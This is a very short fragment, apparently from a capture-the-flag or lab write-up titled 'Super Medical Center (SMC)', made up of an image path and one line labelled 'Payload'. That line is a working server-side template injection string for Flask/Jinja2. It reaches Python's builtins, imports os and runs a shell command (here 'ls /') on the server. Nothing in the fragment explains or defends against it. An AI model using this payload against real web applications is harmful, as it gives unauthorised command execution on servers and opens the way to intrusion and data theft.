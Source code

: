 # Super Medical Center (SMC)

Payload:
{{request.application.\_\_globals\_\_.\_\_builtins\_\_._\_import\_\_('os').popen('ls /').read()}}
